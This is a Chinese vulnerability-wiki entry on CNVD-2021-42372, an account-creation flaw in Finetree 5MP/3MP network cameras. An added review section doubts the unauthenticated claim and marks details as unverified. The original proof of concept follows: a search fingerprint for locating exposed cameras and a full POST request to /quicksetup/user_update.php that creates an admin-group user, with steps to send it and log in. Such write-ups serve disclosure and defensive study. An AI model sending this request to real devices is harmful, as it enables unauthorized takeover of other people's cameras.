




# Finetree 5MP 摄像机 user_pop.php 任意用户添加漏洞 CNVD-2021-42372

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Finetree 5MP/3MP摄像机
- 本文讨论：CNVD-2021-42372 用户添加
- 版本、权限与配置前提：声称未授权；请求携带PHPSESSID，group=2，未给固件
- 资料类型：PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 标题user_pop.php，真正写入接口/quicksetup/user_update.php，需说明页面与动作关系
- 有Cookie却无其未登录来源，匿名前提未被文本证明
- 返回200可能为业务码或HTTP状态未区分，单200不足判定；应以新增账户登录为证据
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证
- 样例会话、令牌或共享秘密已按具体值遮罩中段并保留首尾；不能直接用于请求。公开默认/测试凭据与算法常量不因长得像密码而改写；其用途仍须按原文说明判断

### 操作风险与恢复

- 账户操作会新增用户或更改认证材料，可能使原用户失去访问；须核对角色、操作前账户状态及恢复路径

### 待核与来源

- 3MP范围和CNVD原公告待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Finetree 5MP 摄像机 user_pop.php文件存在未授权任意用户添加，攻击者添加后可以获取后台权限

## 漏洞影响

```
Finetree 5MP
Finetree 3MP
```

## 网络测绘

```
app="Finetree-5MP-Network-Camera"
```

## 漏洞复现

登录页面


存在漏洞的文件 user_pop.php



```http
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4********************fm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```

可以Burpsuite发送POST请求



或者HackBar发送POST请求，返回200即为添加成功，返回804则为用户重复



利用添加的账户可以登录后台



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
